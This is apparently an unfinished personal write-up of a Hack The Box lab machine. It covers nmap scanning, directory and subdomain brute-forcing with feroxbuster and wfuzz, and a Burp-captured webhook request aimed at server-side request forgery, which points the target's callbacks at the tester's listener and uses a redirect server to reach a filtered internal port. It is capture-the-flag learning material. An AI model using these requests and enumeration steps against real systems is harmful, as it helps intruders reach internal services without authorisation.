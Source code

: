 Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-16 21:08 EDT
Nmap scan report for 10.10.11.176
Host is up (0.26s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE    SERVICE
22/tcp   open     ssh
80/tcp   open     http
3000/tcp filtered ppp

adding to th ehost file

` echo "10.10.11.176 health.htb" | sudo tee -a /etc/hosts`

Web applications that take a URL as an input tend to be vulnerable to a Server-side request forgery
(SSRF) attack. The goal of this attack is to induce the server to make requests to an unintended location. In
this particular case we could try to use the application to access the service running on port 3000 . We know
that on port 80 there is a website, so let's try to access it using localhost or 127.0.0.1 .

![](2023-03-16-21-16-58.png)

looking through burp

```
POST /webhook HTTP/1.1
Host: health.htb
Content-Length: 171
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://health.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://health.htb/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: XSRF-TOKEN=eyJpdiI6Ikg3L2FWNyt5Rzc3dk95N1RsTEtWUnc9PSIsInZhbHVlIjoid0cwMkRPNnJNb0tPdVRIbllNTWZvZ3pLR1o0a2tmeThJd05GSm1mZlE1dTJKaGpLTU9wSWdkNy8rREp3NForQWZ0RDJBamZmdThicE9BYlZSN1JtcC95YlFvem10VEltK1hobDAxRk5POFRKanpHK0doamNXZkdLVUlGd01ydGoiLCJtYWMiOiIwNDNhMDY5ZWRkNzZhN2JjOGM4ZWNlYTE1NWU0MmI5ZDI0OGQxNTk0MGZhYTc3NDZkMWRlMzg1Zjk3Y2YwZGVkIiwidGFnIjoiIn0%3D; laravel_session=eyJpdiI6IkM3RSs1STAwdENMSWRISUtNZnQwM2c9PSIsInZhbHVlIjoiWHU4OGw0bGo0Y3VIc1lDV1VSUm9aZ2JaR0JiK2dzN1E0UWVZNkgxNUhNRldtRUZGQU9oVXBoRk1JNFZqeGFaUHovb0tKOFN3MkdaVmdFWUNVODZEd1Blc1RMcWh2dEFSWHgxV210bitVaXNmNjFYcVRlamtoV0ZQRVlVRlM5N2siLCJtYWMiOiJhZTYzODVjN2Y5OTJiNmIxODUxOTY4MjhlMmE3MzY4Yzk2ZjJhNDgwNDY1ZGY5YWNjY2E1YzY1Y2FiNzlhZDMyIiwidGFnIjoiIn0%3D
Connection: close

_token=yleorSweCAV3odWAVLOqBpfFhtgXFHJG2XAqOuNx&webhookUrl=http%3A%2F%2F10.10.14.16%2Fhook&monitoredUrl=http%3A%2F%2F10.10.14.16%2F&frequency=*****&onlyError=1&action=Test
```

we can confirm whether it is running php thorugh trying ot access `index.php`

can run ferox buster for directory brute force

`feroxbuster -u http://health.htb -x php`

using sub domain brute force

` wfuzz -u http://10.10.11.176 -H "Host: FUZZ.health.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --hw 620`

trying to get to know who is making the request

![](2023-03-16-21-30-44.png)

I’d like to see what’s on that port 3000 that’s filtered when I run nmap. The filtering implies that the port is open, just blocked by a firewall. But I can’t give the site a URL that has it’s own IP in it.

I’ll see if the client making these web requests follows redirects. I’ll write a short Flask web server:

[](./frequest.py)

This code defines three end points. A GET request to /redirect will return a redirect to http://10.10.14.6/test. a GET to /test will return “Hello!”. If that works, there will be a POST to /hook, which will print success and the body.

```
10.10.11.176 - - [16/Mar/2023 21:42:36] "GET /hook HTTP/1.0" 405 -
10.10.11.176 - - [16/Mar/2023 21:42:37] "POST /redirect HTTP/1.1" 405 -
10.10.11.176 - - [16/Mar/2023 21:43:10] "GET /redirect HTTP/1.0" 302 -

Got Hook!
{'webhookUrl': 'http://10.10.14.16/hook', 'monitoredUrl': 'http://10.10.14.16/redirect', 'health': 'down'}
```

when trying to redirect to htb I only get

```
10.10.11.176 - - [16/Mar/2023 21:51:34] "GET /redirect HTTP/1.0" 302 -

```

first monitored then payload

we could have tried IP address as hex as well

